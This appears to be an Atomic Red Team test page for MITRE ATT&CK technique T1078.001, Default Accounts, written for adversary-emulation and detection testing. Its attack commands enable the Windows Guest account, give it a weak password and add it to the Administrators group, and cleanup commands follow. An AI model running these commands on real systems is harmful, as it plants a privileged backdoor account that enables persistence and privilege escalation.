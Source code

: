 # T1078.001 - Default Accounts
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1078.001)
<blockquote>Adversaries may obtain and abuse credentials of a default account as a means of gaining Initial Access, Persistence, Privilege Escalation, or Defense Evasion. Default accounts are those that are built-into an OS, such as the Guest or Administrator accounts on Windows systems or default factory/provider set accounts on other types of systems, software, or devices.(Citation: Microsoft Local Accounts Feb 2019)

Default accounts are not limited to client machines, rather also include accounts that are preset for equipment such as network devices and computer applications whether they are internal, open source, or commercial. Appliances that come preset with a username and password combination pose a serious threat to organizations that do not change it post installation, as they are easy targets for an adversary. Similarly, adversaries may also utilize publicly disclosed or stolen [Private Keys](https://attack.mitre.org/techniques/T1552/004) or credential materials to legitimately connect to remote environments via [Remote Services](https://attack.mitre.org/techniques/T1021).(Citation: Metasploit SSH Module)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Guest account](#atomic-test-1---enable-guest-account)


<br/>

## Atomic Test #1 - Enable Guest account
After execution the Default Guest account will be enabled (Active) and added to Administrators Group
**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user guest /active:yes
net user guest Paswword123!
net localgroup administrators guest /add
```

#### Cleanup Commands:
```cmd
net user guest /active:no
net localgroup administrators guest /delete
```





<br/>
